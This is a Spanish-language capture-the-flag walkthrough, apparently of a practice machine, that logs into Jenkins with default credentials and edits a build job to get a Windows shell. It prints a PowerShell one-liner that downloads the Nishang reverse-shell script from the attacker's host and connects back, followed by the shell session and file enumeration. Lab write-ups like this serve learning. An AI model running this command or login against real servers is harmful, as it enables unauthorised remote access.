 What is the username and password for the login panel? (in the format username:password) **admin:admin**

Con esto ya podemos acceder a Jenkins.

Una vez dentro nos encontraremos con que tiene un job creado que tiene el comando whoami, usaremos esto para proseguir con el ataque.

En el job, modificaremos el whoami por lo siguiente
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.61.217:8000/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.61.217 -Port 4441
```

Ejecutando el job veremos que en nuestro listener ncat se levanta la shell windows.
```
Listening on [0.0.0.0] (family 0, port 4441)
Connection from ip-10-10-202-154.eu-west-1.compute.internal 49236 received!
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>
```

Ok, necesitamos saber quienes somos
```
whoami
alfred/bruce
```

Buscando que usuarios hay en Users nos percatamos que existe un usuario bruce
```
dir C:\Users
Directory: C:\Users


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        10/25/2019   8:05 PM            bruce                             
d----        10/25/2019  10:21 PM            DefaultAppPool                    
d-r--        11/21/2010   7:16 AM            Public 
```
Veamos si podemos encontrar el archivo que se nos solicita
```
dir C:\Users\bruce\Desktop
Directory: C:\Users\bruce\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        10/25/2019  11:22 PM         32 user.txt 

```
```
type C:\Users\bruce\Desktop\user.txt
```
